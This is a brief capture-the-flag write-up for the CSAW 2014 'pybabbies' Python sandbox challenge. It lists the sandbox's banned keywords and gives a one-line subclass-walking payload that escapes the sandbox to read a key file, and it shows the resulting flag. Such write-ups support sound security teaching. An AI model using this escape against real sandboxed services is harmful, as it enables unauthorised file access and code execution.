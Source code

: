 # CSAW CTF 2014: pybabbies

**Category:** Exploitation
**Points:** 200
**Description:**

> so secure it hurts
>
> ```bash
> nc 54.165.210.171 12345
> ```
>
> Written by ColdHeat
>
> [pyshell.py](pyshell.py)

## Write-up

[The provided Python script](pyshell.py) is a Python sandbox that disallows the use of the following commands:

```py
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
```

One possible solution is the following:

```python
print(().__class__.__bases__[0].__subclasses__()[40]('./key').read())
```

This prints the contents of the `key` file:

```
flag{definitely_not_intro_python}
```

The flag is `definitely_not_intro_python`.

## Other write-ups and resources

* <http://rotlogix.com/2014/09/22/csaw-exploitation-200-pybabies/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
* <http://evandrix.github.io/ctf/2014-csaw-exploitation-200-pybabbies.html>
* <https://hexplo.it/escaping-the-csawctf-python-sandbox/>
* <http://sugarstack.io/csaw2014-pybabbies/>
